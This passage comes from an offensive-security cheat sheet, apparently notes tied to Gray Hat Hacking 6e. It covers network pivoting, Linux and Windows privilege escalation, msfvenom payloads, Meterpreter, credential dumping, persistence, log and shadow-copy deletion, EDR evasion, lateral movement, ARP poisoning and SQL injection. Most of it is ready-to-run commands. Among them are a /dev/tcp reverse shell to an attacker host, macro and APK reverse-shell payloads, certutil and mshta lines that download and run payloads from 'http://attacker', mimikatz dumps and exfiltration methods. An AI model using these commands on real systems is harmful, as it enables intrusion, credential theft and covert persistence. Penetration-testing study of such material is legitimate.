Decode type 7 instantly with `ciscot7`, `johntheripper`, or a one-liner in Python. Crack types 5/8/9 in hashcat.

### Default / weak credentials

- `cisco:cisco`
- `admin:admin`
- Blank `enable` password
- SNMP `public` / `private` community strings

### SNMP attacks

```bash
# Read community enumeration
snmpwalk -v2c -c public 10.0.0.1

# Try write community — if RW access, you can dump config via TFTP
snmpset -v2c -c private 10.0.0.1 1.3.6.1.4.1.9.9.96.1.1.1.1.2.111 i 1
```

Cisco TFTP config dump OID chain (old-school):
```
1.3.6.1.4.1.9.9.96.1.1.1.1.2.111 = 1   (protocol: TFTP)
1.3.6.1.4.1.9.9.96.1.1.1.1.3.111 = 4   (source: running-config)
1.3.6.1.4.1.9.9.96.1.1.1.1.4.111 = 1   (dest: network file)
1.3.6.1.4.1.9.9.96.1.1.1.1.5.111 = a <attacker IP>
1.3.6.1.4.1.9.9.96.1.1.1.1.6.111 = s "config.cfg"
1.3.6.1.4.1.9.9.96.1.1.1.1.14.111 = i 1 (execute)
```

### Cisco Smart Install (SMI) abuse

- Port 4786/TCP.
- Unauthenticated; can trigger config exfil or push malicious IOS image.
- Check with `nmap -p4786 --script cisco-siet` or the SIET tool.
- **CVE-2018-0171** (Smart Install memory corruption).

### GRE / MPLS / BGP considerations

- **BGP hijack** — announce more-specific prefixes to redirect traffic (requires AS presence).
- **GRE tunnels** — misconfigured as router-to-router can be abused for lateral movement.

---

## 13. SSH Tunneling {#ssh-tunnel}

Pivoting through an SSH foothold.

### Local port forward (L)

Forward a port on your machine to a target reachable by the SSH server.

```bash
ssh -L 8080:internal.web:80 user@pivot
# Now localhost:8080 on your box reaches internal.web:80 via pivot
```

### Remote port forward (R)

Expose a port on the SSH server side, backed by your machine.

```bash
ssh -R 4444:localhost:4444 user@pivot
# When something on pivot connects to pivot:4444, it reaches your local 4444
```

### Dynamic forward (D) — SOCKS5 proxy

```bash
ssh -D 1080 user@pivot
# proxychains/firefox over SOCKS5 127.0.0.1:1080 → traffic exits from pivot
```

### Chisel (HTTP/WebSocket tunneling)

```bash
# On attacker (server)
chisel server --port 8080 --reverse

# On pivot (client)
./chisel client attacker:8080 R:socks
```

### Reverse SSH for NAT traversal

Pivot is behind NAT. Have pivot dial out to attacker:

```bash
# On pivot
ssh -N -R 2222:localhost:22 attacker@attacker.com

# On attacker
ssh -p 2222 user@localhost       # goes back to pivot
```

### Meterpreter pivoting

```
route add 10.0.1.0/24 1          # traffic to 10.0.1.0/24 via session 1
auxiliary/server/socks_proxy     # stand up SOCKS through Meterpreter
```

---

## 14. Linux Privilege Escalation {#linux-privesc}

Getting from low-priv user to root.

### Kernel exploits

Map `uname -r` → known kernel CVEs:

| Name | CVE | Kernel range |
|---|---|---|
| **DirtyCOW** | CVE-2016-5195 | < 4.8.3 — race in COW of MAP_PRIVATE |
| **DirtyPipe** | CVE-2022-0847 | 5.8+ up to 5.16.11 — splice bug |
| **OverlayFS** | CVE-2021-3493 | Ubuntu-specific OverlayFS cap bypass |
| **PwnKit (polkit pkexec)** | CVE-2021-4034 | Nearly universal 2009–2022 |
| **nftables / netfilter** | CVE-2022-32250, CVE-2023-32233 | Various kernel versions |

### SUID abuse (GTFOBins)

Classics with `find`, `vim`, `less`, `man`, `awk`, `nmap --interactive` (old), `env`, `python`, `perl`, `bash -p`.

```bash
# find with SUID
find . -exec /bin/bash -p \; -quit

# vim with SUID
vim -c ':!/bin/bash -p'
```

### Sudo misconfigurations

**NOPASSWD entries** — `sudo -l` shows what's allowed.

If allowed to run a shell-escaping binary as root with NOPASSWD (GTFOBins territory), instant root.

**sudoedit / editor wildcard:**
```bash
sudo -e /etc/config.conf     # might spawn $EDITOR as root
EDITOR='vim -- /tmp/escape' sudo -e /etc/anything
```

**CVE-2019-14287 (Baron Samedit predecessor):** `sudo -u#-1 command` bypassed user check.

**CVE-2021-3156 (Baron Samedit):** sudo heap-based buffer overflow — near-universal root on unpatched sudo.

### Writable service / binary / path

```bash
# Writable /etc/passwd (misconfig) — add a root user with known hash
echo 'evil:$1$abc$xyz:0:0:root:/root:/bin/bash' >> /etc/passwd

# Writable systemd service file
echo -e "[Service]\nExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'" >> /etc/systemd/system/some.service

# PATH hijack — if a root cron runs a bare command name with writable dir in PATH
echo '#!/bin/bash\ncp /bin/bash /tmp/rb; chmod +s /tmp/rb' > /writable-in-path/ls
```

### Capabilities abuse

```bash
# python with cap_setuid+ep
getcap /usr/bin/python3
# If set: a python one-liner that calls setuid(0) and spawns a shell elevates to root.
```

### Docker / LXD membership

User in `docker` group:
```bash
docker run -v /:/mnt -it alpine chroot /mnt sh
```

User in `lxd` group — import an image, mount the host root.

### NFS no_root_squash

Mount host's NFS export, create a SUID binary as root on attacker side, run it on target.

### Automated triage

- **LinPEAS** — most comprehensive.
- **linpeas.sh --quiet | tee out.txt**
- **linux-exploit-suggester-2.pl**

---

## 15. Standalone Payloads {#payloads}

msfvenom output that runs independently of Metasploit on the target.

### Windows EXE / DLL

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o pay.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f dll -o pay.dll
```

Execute DLL: `rundll32.exe pay.dll,DllMain` (or with a named export).

### Windows shellcode for custom loader

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw -o pay.bin
```

### Linux ELF

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f elf -o pay.elf
chmod +x pay.elf
./pay.elf
```

### Web payloads

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw -o shell.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw -o shell.jsp
msfvenom -p java/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f war -o shell.war
```

### Office macro (VBA)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f vba
# Paste into Word/Excel module; add Auto_Open / Document_Open hook
```

### Android APK

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -o pay.apk
# Sign with jarsigner / apksigner before install
```

### Encoders and iterations

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 \
  -e x64/xor_dynamic -i 5 -f exe -o encoded.exe
```

**Reality check:** simple encoders like `shikata_ga_nai` do NOT meaningfully evade modern EDR. They change the signature to match a **well-known encoded signature**. Use custom loaders / packers / syscall-direct tradecraft for serious evasion.

### Handler on the operator side

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
set ExitOnSession false
exploit -j
```

---


*Gray Hat Hacking 6e — figure illustrating post-exploitation, in-memory agent operation, or process-injection technique.*

## 16. Meterpreter {#meterpreter}

In-memory post-exploitation payload that provides a scripting interface.

### Architecture

- **Stager** — small bootstrap (~100 bytes) that pulls the stage.
- **Stage** — full Meterpreter DLL loaded reflectively into the target process.
- **Core extensions** — stdapi, priv, kiwi (mimikatz), incognito, espia.
- Communication over staged/stageless channels — TCP, HTTPS, named pipe, SMB for pivoting.

### Core commands

```
sysinfo
getuid
getpid
ps
migrate <pid>
shell                 # drop to cmd/bash
background            # send session to bg
sessions -i <id>

# File ops
ls; pwd; cd
download C:\\users\\bob\\Desktop\\notes.txt
upload shell.exe C:\\temp\\
edit C:\\windows\\system32\\drivers\\etc\\hosts
cat <file>

# Processes
kill <pid>

# Network
ifconfig; netstat; route
portfwd add -l 8080 -p 80 -r 10.0.1.5
portfwd list
```

### Privilege and stealth

```
getsystem              # try 3 techniques to escalate to SYSTEM
hashdump               # dump SAM hashes (needs SYSTEM)
load kiwi; creds_all   # load mimikatz extension
use incognito
list_tokens -u
impersonate_token "DOMAIN\\administrator"
rev2self
```

### Post modules

```
run post/windows/gather/enum_domain
run post/windows/gather/credentials/credential_collector
run post/windows/manage/migrate
run post/multi/recon/local_exploit_suggester
```

### Route and pivoting

```
route add 10.0.1.0/24 1
auxiliary/server/socks_proxy
use auxiliary/server/socks_proxy
set SRVPORT 1080
run
```

### Detection realities

- Stageless x86/x64 Meterpreter on Windows is heavily signatured by Defender and all major EDR.
- Use in CTF / labs; in real ops use custom C2 (Cobalt Strike, Sliver, Mythic, Havoc).

---

## 17. Windows Enumeration {#windows-enum}

### Local host enumeration

```cmd
whoami /all
hostname
systeminfo
wmic qfe list                   # patch list
net user
net localgroup administrators
net accounts
```

### PowerShell

```powershell
Get-LocalUser
Get-LocalGroupMember Administrators
Get-ComputerInfo
Get-HotFix
Get-Process
Get-Service | ? Status -eq Running
Get-ScheduledTask | ? State -eq Ready
Get-NetTCPConnection
Get-NetIPAddress
Get-SmbShare
```

### Domain enumeration

```cmd
net user /domain
net group /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
nltest /dclist:corp.local
nltest /domain_trusts
```

**PowerView** (PowerShell Empire module):

```powershell
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetDomainController
Get-NetUser
Get-NetGroup "Domain Admins" -FullData
Get-NetComputer -FullData
Get-NetShare -ComputerName <host>
Find-LocalAdminAccess
Get-NetSession -ComputerName <host>
```

**BloodHound** — graph-based AD attack path analysis. Collectors: SharpHound (C#), AzureHound (Azure AD), BloodHound.py (Python from Linux).

### Kerberos ticket view

```cmd
klist
klist purge
```

### Event logs

```cmd
wevtutil qe Security /c:100 /f:text
Get-WinEvent -LogName Security -MaxEvents 100
```

### Automated tools

- **WinPEAS** — Windows equivalent of LinPEAS
- **Seatbelt** — C# host enumeration
- **PowerUp** — local privesc enumeration (PowerShell)

---

## 18. Windows Credentials {#windows-creds}

### Hash types

| Hash | Storage | Hashcat mode |
|---|---|---|
| **LM** | SAM (pre-NT or if LMCompatibility allows) — first 7 chars, upper, DES | `3000` |
| **NTLM** | SAM / LSASS — MD4 of UTF-16LE password | `1000` |
| **Net-NTLMv1** | Challenge-response on wire | `5500` |
| **Net-NTLMv2** | Challenge-response with client challenge + server challenge | `5600` |
| **MS Cache v2 (DCC2)** | Cached domain creds on workstation | `2100` |
| **Kerberos AS-REP roast** | AES or RC4-HMAC ticket | `18200` (RC4) / `19600` (AES128) / `19700` (AES256) |
| **Kerberos TGS roast (Kerberoast)** | RC4-HMAC-MD5 or AES ticket | `13100` / `19600` / `19700` |
| **Protected User DPAPI** | DPAPI masterkey | `16100` |

### Mimikatz classics

```
privilege::debug
sekurlsa::logonpasswords            # dump cleartext / NTLM / Kerberos tickets from LSASS
sekurlsa::tickets /export           # export .kirbi tickets
lsadump::sam                        # local SAM hashes
lsadump::secrets                    # LSA secrets
lsadump::dcsync /user:corp\\krbtgt  # DCSync — replicate a user's hash from a DC (needs replication rights)
kerberos::golden /user:Administrator /domain:corp.local /sid:<sid> /krbtgt:<hash> /ptt
kerberos::ticket /ptt ticket.kirbi
```

### SAM / SYSTEM offline dump

```cmd
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save

# Offline on Linux
impacket-secretsdump -sam sam.save -system system.save LOCAL
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL
```

### LSASS dump

- **comsvcs.dll MiniDump:**  
  `rundll32 comsvcs.dll, MiniDump <lsass PID> C:\\temp\\lsass.dmp full`
- **Task Manager right-click "Create dump file"** (needs local admin).
- **procdump**: `procdump -ma lsass.exe lsass.dmp`
- **nanodump** — minimal custom LSASS dumper.
- Defender flags all of these; real ops use handle duplication tricks, seclogon abuse, or silently fork and exfil memory.

### Pass-the-Hash / Overpass / Pass-the-Ticket

- **PtH (T1550.002)** — use NTLM hash directly with `pth-winexe`, `evil-winrm -H <hash>`, impacket `psexec.py -hashes`, Mimikatz `sekurlsa::pth`.
- **Overpass-the-Hash** — use NTLM hash to request a Kerberos TGT, then act via Kerberos.
- **Pass-the-Ticket (T1550.003)** — inject a `.kirbi` TGT into a logon session.

### Kerberoasting

```
# Request TGS for accounts with SPN
Rubeus.exe kerberoast /outfile:roasts.txt
# Or impacket
impacket-GetUserSPNs -request -dc-ip 10.0.0.1 corp.local/lowpriv
# Crack
hashcat -m 13100 roasts.txt rockyou.txt
```

### AS-REP roasting

For accounts with `DONT_REQ_PREAUTH`:
```
Rubeus.exe asreproast /outfile:asreps.txt
impacket-GetNPUsers corp.local/ -usersfile users.txt -no-pass
hashcat -m 18200 asreps.txt rockyou.txt
```

### DPAPI

Windows Data Protection API encrypts browser cookies, saved creds, WiFi keys, etc., with a key derived from the user's password.

```
mimikatz "dpapi::cred /in:C:\\Users\\bob\\AppData\\Local\\Microsoft\\Credentials\\<GUID>"
mimikatz "dpapi::masterkey /in:<masterkey file> /sid:<sid> /password:<plain>"
```

**SharpDPAPI** and **SharpChromium** extract Chrome/Edge cookies and passwords.

### NTLM relay (Responder + ntlmrelayx)

1. **Responder** poisons LLMNR / NBT-NS / mDNS on a LAN.
2. When a victim tries to resolve a typo, Responder answers and captures Net-NTLMv1/v2 hashes.
3. **ntlmrelayx** can relay those captures to a different host that accepts NTLM (SMB without signing, LDAP, HTTP EWS, ADCS web enrollment).

```bash
responder -I eth0 -wrf
ntlmrelayx.py -tf targets.txt -smb2support -c 'powershell -enc ...'
```

### Credential dumping mitigations

- **Credential Guard** — isolates LSASS into VBS-protected process; blocks read access.
- **LSA Protection (RunAsPPL)** — only signed processes can open LSASS.
- **Restricted Admin mode RDP** — no cached creds on RDP target.
- **Protected Users group** — no NTLM, no unconstrained delegation, no CredSSP.

---

## 19. Windows Cover Your Tracks {#windows-cover}

### Event Log

```cmd
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil el                        # list all logs
```

```powershell
Clear-EventLog -LogName Security
Get-WinEvent -ListLog * | ForEach-Object { wevtutil cl $_.LogName }
```

### PowerShell logging

Kill transcript / module / ScriptBlock logging:

```powershell
Set-PSReadlineOption -HistorySaveStyle SaveNothing
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Registry flips (requires admin)
reg delete "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\PowerShell\\ScriptBlockLogging" /f
reg delete "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\PowerShell\\ModuleLogging" /f
```

### Prefetch

```
C:\Windows\Prefetch\
del /q C:\Windows\Prefetch\*.pf
```

### Shadow copies

```cmd
vssadmin delete shadows /all /quiet
wmic shadowcopy delete /nointeractive
```

**Note:** ransomware famously does this. Doing it in ops leaves loud telemetry.

### MFT / $LogFile timestomping

- `Set-MFT-Timestamp` (PowerShell), `SetMace`, or direct `NtSetInformationFile` calls can backdate `$STANDARD_INFORMATION` timestamps.
- Forensics also inspects `$FILE_NAME` attribute (usually not stomped by simple tools) — discrepancies are a red flag.

### USN Journal

```cmd
fsutil usn deletejournal /D C:
fsutil usn createjournal m=32000000 a=8000000 C:
```

### ETW and EDR telemetry

- ETW (Event Tracing for Windows) is the backbone of telemetry.
- Patching `ntdll!EtwEventWrite` (NOP the first instruction) silences ETW from user-mode.
- EDR products detect the patch via periodic hash checks on `ntdll`.

---

## 20. Windows Sustain Access {#windows-sustain}

Persistence on Windows (ATT&CK TA0003).

### Run keys

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /d "C:\temp\pay.exe" /f
```

### Scheduled tasks

```cmd
schtasks /create /tn "Updater" /tr "C:\temp\pay.exe" /sc onlogon /rl highest /f
schtasks /create /tn "Sync" /tr "powershell -w hidden -enc <b64>" /sc minute /mo 10 /f
```

### Services

```cmd
sc create EvilSvc binPath= "cmd /c start C:\temp\pay.exe" start= auto
sc start EvilSvc
```

### WMI event subscription (fileless persistence)

```powershell
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
    Name='Persist'
    EventNamespace='root\cimv2'
    QueryLanguage='WQL'
    Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
}
$Consumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments @{
    Name='PersistC'
    CommandLineTemplate='C:\temp\pay.exe'
}
Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{
    Filter=$Filter
    Consumer=$Consumer
}
```

### DLL hijacking / sideloading

- Drop a malicious DLL in a directory that a legitimate signed app loads from.
- **SharpDllProxy**, **Spartacus** find candidate hijacks.

### COM hijacking

Register a CLSID under `HKCU\Software\Classes\CLSID\{GUID}\InprocServer32` pointing to your DLL. Whenever an app instantiates that COM object, your DLL loads.

### Logon scripts

- `HKCU\Environment\UserInitMprLogonScript` — run at logon.
- GPO logon script path (if domain admin).

### AppInit_DLLs (legacy)

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`

Requires `LoadAppInit_DLLs=1` and disabled when Secure Boot is on.

### Image File Execution Options (IFEO) debugger

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<app.exe>\Debugger = C:\temp\pay.exe`

Whenever `app.exe` is launched, `pay.exe` runs instead with the target as arg. **Sticky Keys backdoor:** IFEO on `sethc.exe` or `utilman.exe` replaced with `cmd.exe` — gives SYSTEM prompt on Windows login screen.

### Accessibility backdoor (legacy)

Replace `C:\Windows\System32\sethc.exe` or `utilman.exe` with `cmd.exe`. Triggers from RDP login screen: press Shift x5 or Win+U → SYSTEM cmd.

### Skeleton Key (Mimikatz)

Patches LSASS on DC to accept a magic password for any account. Requires Domain Admin, RAM-only, doesn't survive reboot.

### DSRM backdoor

Directory Services Restore Mode password can be synced with a domain account. Set `DsrmAdminLogonBehavior=2` → log in to DC as `.\Administrator` with DSRM password over the network.

### Golden / Silver / Diamond / Sapphire tickets

- **Golden Ticket** — forged TGT signed with krbtgt hash. Requires krbtgt hash (DCSync). Lasts 10 years.
- **Silver Ticket** — forged TGS for a specific service. Requires service-account hash.
- **Diamond Ticket** — steal real TGT, modify PAC, re-sign. Evades some detections that flag golden.
- **Sapphire Ticket** — forge with valid PAC from a real user (S4U2self abuse).

---

## 21. Windows Collect {#windows-collect}

### Target files

- `C:\Users\<user>\Documents\`, `Desktop\`, `Downloads\`
- `C:\Users\<user>\AppData\Roaming\` — browser profiles, Outlook, Teams, Slack cache
- `C:\Windows\System32\config\SAM`, `SECURITY`, `SYSTEM`
- `C:\Windows\NTDS\ntds.dit` (on DC only)
- `C:\Windows\System32\GroupPolicy\Machine\Preferences\Groups\Groups.xml` (legacy — CPassword)
- `C:\inetpub\wwwroot\` — IIS roots
- Network shares: `\\fileserver\share`
- SharePoint / Exchange / SQL servers

### Browser credentials

- Chrome/Edge: `%LocalAppData%\Google\Chrome\User Data\Default\Login Data` (SQLite; DPAPI-encrypted).
- Firefox: `%AppData%\Mozilla\Firefox\Profiles\<profile>\logins.json` + `key4.db`.
- **SharpChromium**, **SharpWeb**, **LaZagne** extract.

### Email stash

- **.ost / .pst** — Outlook cached + archived mail.
- Exchange EWS API — programmatic mail extraction if you have a token.

### Staging and archival

```powershell
Compress-Archive -Path C:\users\bob\Documents\* -DestinationPath C:\temp\.loot.zip
```

Or with 7-Zip (if installed) for encryption:
```
7z a -p'operator-key' -mhe=on C:\temp\.loot.7z C:\users\bob\Documents\
```

### Exfiltration

- HTTPS POST → operator C2 (blends in)
- DNS tunnel (iodine, dnscat2)
- Cloud dead-drop (paste, gist, OneDrive attached to attacker account, Telegram bot, Discord webhook)
- BITS jobs — native Windows transfer service (`bitsadmin /transfer`, `Start-BitsTransfer`)

---

## 22. Windows Recon (Expanding Access) {#windows-recon-internal}

### Domain awareness

```cmd
nltest /dclist:corp.local
nltest /domain_trusts /all_trusts
```

```powershell
Get-ADTrust -Filter *
Get-ADDomain
Get-ADForest
```

### Share hunting

```powershell
Find-DomainShare -Domain corp.local
Invoke-ShareFinder
```

**snaffler** — finds interesting files across SMB shares (creds, secrets, source code, passwords in docs).

### Session hunting

```
Find-DomainUserLocation -UserGroupIdentity "Domain Admins"
```

Shows where DA-equivalents are currently logged in → target those boxes for credential dumping.

### BloodHound collection

```powershell
SharpHound.exe -c All
# Or bloodhound-python from Linux foothold
bloodhound-python -u user -p pass -d corp.local -ns 10.0.0.1 -c All
```

Feed ZIP into BloodHound GUI → find shortest path to Domain Admin.

### Key queries in BloodHound

- Shortest path to Domain Admins
- Kerberoastable users with Path to DA
- ACL abuse opportunities (`GenericAll`, `GenericWrite`, `WriteDACL`, `AddMember`, `ForceChangePassword`)
- Unconstrained / constrained / resource-based constrained delegation chains
- ESC1–ESC11 ADCS misconfigs (via the ADCS collector)

---

## 23. HBSS Evasion {#hbss}

**HBSS** = Host Based Security System — DoD's mandated endpoint protection suite. Historically McAfee ePolicy Orchestrator (ePO) based; being replaced / supplemented by **ESS (Endpoint Security Solutions)** and CrowdStrike Falcon in recent years.

### HBSS components

- **McAfee VirusScan Enterprise / ENS** — AV engine
- **Host Intrusion Prevention System (HIPS)** — behavior blocking, app whitelisting
- **Policy Auditor** — STIG compliance audit
- **DLP** — data loss prevention
- **Rogue System Detection** — network enumeration to find unmanaged hosts
- **Asset Baseline Monitor** — integrity monitoring

All managed from the ePO server over TCP/8443 (agent-to-server) and TCP/80/443.

### Evasion tactics

**AMSI bypass** (Windows AMSI is used by Defender, but also by some HBSS integrations):
- Patch `AmsiScanBuffer` in memory to return `AMSI_RESULT_CLEAN`.
- Break `amsiContext` / `amsiSession` to force init failure.
- Modern hardened builds (Win11 / AMSI.dll checksummed) push toward custom DLLs and .NET reflective loaders.

**ETW patching** — NOP `EtwEventWrite` to blind telemetry.

**Unhooking** — most EDR installs user-mode hooks in `ntdll.dll` to intercept syscalls. Load a clean copy of `ntdll.dll` from disk into memory → your calls bypass hooks. Tools: `SharpUnhooker`, `Perun's Fart`.

**Syscall-direct (Hell's Gate, Halo's Gate, Tartarus' Gate)** — assemble syscall stubs at runtime without touching hooked `Nt*` functions.

**Process injection into trusted processes** — hide in `explorer.exe`, `svchost.exe`, `lsass.exe` (subject to PPL). Techniques: `CreateRemoteThread`, APC injection, thread hijacking, Process Hollowing, Process Doppelgänging, Transactional NTFS.

**Signed driver abuse (BYOVD — Bring Your Own Vulnerable Driver)** — load a known-vulnerable signed driver (e.g., `RTCore64.sys`, `gdrv.sys`, `Dell DBUtil`), exploit it to disable AV from kernel.

**Sandbox detection** — check CPU cores, RAM amount, user-activity flags, sleep-accelerate checks, specific VM registry keys and MAC OUIs.

**LOLBAS / LOLBins** — use legitimate signed binaries to execute code:
- `certutil -urlcache -split -f http://attacker/pay.exe pay.exe`
- `bitsadmin /transfer job http://attacker/pay.exe C:\temp\pay.exe`
- `regsvr32 /s /u /i:http://attacker/pay.sct scrobj.dll`
- `mshta http://attacker/pay.hta`
- `msiexec /q /i http://attacker/pay.msi`

**GTFOBins / LOLBAS** databases catalog these.

### Application whitelisting bypass

- **AppLocker / WDAC bypass** — use signed LOLBAS (`InstallUtil.exe`, `regasm.exe`, `msbuild.exe`, `cmstp.exe`, `dnx.exe`) to execute .NET / XAML / scriptlets.
- **MSBuild** — inline tasks compile and execute C# from XML.
- **cmstp.exe** — connection manager profile installer — loads an INF with `RunPreSetupCommands` executing arbitrary cmd.

---

## 24. Windows Persistence {#windows-persistence}

Already covered in §20. This section emphasizes the detection signals used by SOC / HBSS:

### Autoruns coverage

Microsoft Sysinternals **Autoruns** enumerates ~50 persistence locations. Defenders run it; operators avoid the well-known ones.

- Run / RunOnce keys
- Scheduled tasks
- Services
- Explorer extensions
- IE BHOs
- Office addins
- Winlogon
- Print monitors
- LSA providers
- Netsh helpers
- WMI event subscriptions

### Lower-signal persistence

- COM hijack under `HKCU` (no admin required, per-user)
- WMI event filters + consumers (fileless)
- Signed DLL hijack in per-user apps
- Scheduled task with "at logon" trigger, principal = current user, hidden from Task Scheduler GUI via `<Hidden>true</Hidden>` in the XML

### Fileless techniques

- WMI class properties as storage for payload strings
- Registry blob payloads + scriptlet loaders
- PowerShell encoded commands in task action strings

---

## 25. Expanding Access {#expanding-access}

Lateral movement patterns (ATT&CK TA0008).

| Technique | ATT&CK | Mechanism |
|---|---|---|
| **Pass-the-Hash / Ticket** | T1550 | Reuse stolen credential material |
| **SMB admin share (`C$`, `ADMIN$`)** | T1021.002 | `psexec.py`, `wmiexec.py`, `smbexec.py` (Impacket) |
| **WinRM / PowerShell Remoting** | T1021.006 | `Invoke-Command -ComputerName ...`, `evil-winrm` |
| **RDP** | T1021.001 | Interactive desktop |
| **SSH** | T1021.004 | Unix lateral |
| **DCOM** | T1021.003 | MMC20.Application, ShellWindows, ShellBrowserWindow, Excel |
| **Exploitation of remote services** | T1210 | EternalBlue, Zerologon, PrintNightmare, NoPac, PetitPotam |
| **Port forwarding / SOCKS proxy** | T1090 | `chisel`, `ssh -D`, `plink`, `revsocks`, Metasploit `route add` |
| **Cobalt Strike pivot listeners** | — | SMB-named-pipe beacons daisy-chained |

### Impacket toolkit quick reference

```bash
psexec.py -hashes :<ntlm> corp/admin@target
wmiexec.py -hashes :<ntlm> corp/admin@target
smbexec.py -hashes :<ntlm> corp/admin@target
atexec.py -hashes :<ntlm> corp/admin@target "whoami"
dcomexec.py -hashes :<ntlm> corp/admin@target
secretsdump.py -hashes :<ntlm> corp/admin@target
```

### CrackMapExec / NetExec

```bash
nxc smb 10.0.0.0/24 -u admin -H <ntlm> --shares
nxc smb 10.0.0.0/24 -u admin -H <ntlm> -x 'whoami'
nxc winrm 10.0.0.5 -u admin -p 'Pass!'
nxc ldap dc01 -u lowpriv -p 'Pass!' --kerberoast out.txt
```

### Recent high-impact chains

- **Zerologon (CVE-2020-1472)** — Netlogon MS-NRPC bug; zeros machine password of DC → DCSync → DA.
- **PrintNightmare (CVE-2021-1675 / CVE-2021-34527)** — print spooler driver install; remote SYSTEM.
- **PetitPotam (MS-EFSRPC coerce)** — force DC to authenticate to attacker → relay to ADCS web enrollment → DC certificate → DA.
- **NoPac (CVE-2021-42278 / CVE-2021-42287)** — sAMAccountName spoof in Kerberos.
- **ADCS ESC1** — template allows low-priv user to enroll and specify alternate SAN → request cert as any user, including DA.

---

## 26. ARP Poisoning {#arp-poisoning}

LAN-scoped man-in-the-middle on an untagged broadcast segment.

### Mechanism

1. ARP is trust-all: no authentication of "who has IP X."
2. Attacker sends crafted ARP replies claiming "IP 10.0.0.1 is at aa:bb:cc:...". Targets cache it.
3. Traffic destined to the gateway flows to attacker, who forwards (or drops).
4. Attacker relays traffic to real gateway and back → transparent MITM.

### Tools

```bash
# Enable forwarding so you don't break the network
echo 1 > /proc/sys/net/ipv4/ip_forward

# Ettercap
ettercap -T -i eth0 -M arp:remote /10.0.0.1// /10.0.0.50//

# Bettercap
bettercap -iface eth0
> set arp.spoof.fullduplex true
> set arp.spoof.targets 10.0.0.50
> arp.spoof on

# Arpspoof
arpspoof -i eth0 -t 10.0.0.50 10.0.0.1       # tell victim the gateway is me
arpspoof -i eth0 -t 10.0.0.1 10.0.0.50       # tell gateway the victim is me
```

### What you can do post-MITM

- Sniff cleartext (FTP, Telnet, SMTP, unencrypted HTTP).
- **SSL strip (sslstrip)** — intercept redirects from HTTP → HTTPS and keep the client on HTTP. Mitigated by HSTS + HSTS preload lists.
- DNS hijack — answer lookups with your IP before the real server.
- Session cookie harvest on plaintext HTTP.

### Related L2 attacks

- **DHCP starvation + rogue DHCP** — exhaust pool, offer your own.
- **DHCPv6 rogue (mitm6)** — Windows prefers IPv6; respond to DHCPv6 requests to become their DNS server.
- **WPAD poisoning** — LLMNR/NBT-NS poisoning yields hash captures; WPAD hijack yields proxy redirect.
- **STP root takeover** — send low-priority BPDUs to become spanning-tree root → all VLAN traffic via you.
- **CAM table overflow (macof)** — flood MAC table; switch fails open into hub-like mode on full.
- **VLAN hopping** — DTP auto-negotiation to trunk, or double-tagging (Q-in-Q) injection.
- **CDP / LLDP info leak** — devices broadcast their platform, software version, VLAN.

### Defenses

- **Dynamic ARP Inspection (DAI)** — ties ARP to DHCP snooping table.
- **DHCP snooping** — only trusted ports can serve DHCP.
- **Port security** — limit MACs per port.
- **Static ARP** for critical hosts.
- **802.1X / MACsec** for true L2 authentication.
- **HSTS + certificate pinning** defeats SSL strip.

---

## 27. Web Exploitation {#web-exploit}

### OWASP Top 10 (2021 edition)

1. **A01 Broken Access Control** — IDOR, forced browsing, JWT trust
2. **A02 Cryptographic Failures** — weak crypto, plaintext storage
3. **A03 Injection** — SQL, NoSQL, LDAP, OS command, XPath, template
4. **A04 Insecure Design** — missing threat model
5. **A05 Security Misconfiguration** — default creds, verbose errors, missing headers
6. **A06 Vulnerable and Outdated Components** — unpatched libs
7. **A07 Identification and Authentication Failures** — weak session, credential stuffing
8. **A08 Software and Data Integrity Failures** — insecure CI/CD, unsigned updates
9. **A09 Security Logging and Monitoring Failures**
10. **A10 Server-Side Request Forgery (SSRF)**

### SQL injection

**In-band (error-based / UNION-based):**
```sql
' OR 1=1--
' UNION SELECT null,username,password FROM users--
```

**Blind (boolean-based):**
```sql
' AND SUBSTRING(username,1,1)='a'--
```

**Time-based:**
```sql
' OR IF(1=1, SLEEP(5), 0)--
'; WAITFOR DELAY '0:0:5'--     -- MSSQL
'; SELECT PG_SLEEP(5);--        -- PostgreSQL
```

